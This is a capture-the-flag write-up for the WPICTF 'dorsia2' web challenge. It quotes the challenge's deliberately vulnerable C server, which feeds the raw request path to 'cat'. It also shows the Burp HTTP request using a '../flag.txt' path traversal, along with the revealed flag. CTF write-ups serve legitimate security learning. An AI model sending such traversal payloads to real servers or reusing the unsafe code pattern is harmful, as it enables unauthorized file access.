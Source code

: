 # dorsia2

This was the last challenge we could solve in time.

This wasn't a hard one though we had to think a bit for it to work. I didn't get it to work with Chromium, so I ended up using
BURP Suite and Firefox. We were given an webm video with source code:
[dorsia.webm](http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm). The interesting time was the 22nd second.

The piece of code I analyzed was the following:

```C

#include <stdio.h>

void main() {

    char a[69] = {0};
    scanf("GET /%s", &a);
    printf("HTTP 200 \r\n\r\n");
    fflush(stdout);
    execlp("cat",a,a,0);
}

//run in /home/ctf/web
```

Thus knowing it was possibly a path traversal, we tried that out. All to no avail.

Thus we loaded Burp Suite. (There was no issue earlier with the page. The images are of a later date.)

Then when we sent the target to the intruder, all we would get was `HTTP 200`. Thus we used our code analysis and sent
`HTTP 200` in the body with the path traversal included:

```HTTP

GET /../flag.txt HTTP/1.1
Host: dorsia2.wpictf.xyz:31337
User-Agent: Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 8

HTTP 200
```

Which returned

```HTTP
HTTP 200

WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}
```

Thus including our flag.

The flag was `WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}`

Entering this flag gave us our last **50** points. Bringing our total to **526** points. And we ended at the **186th** place.
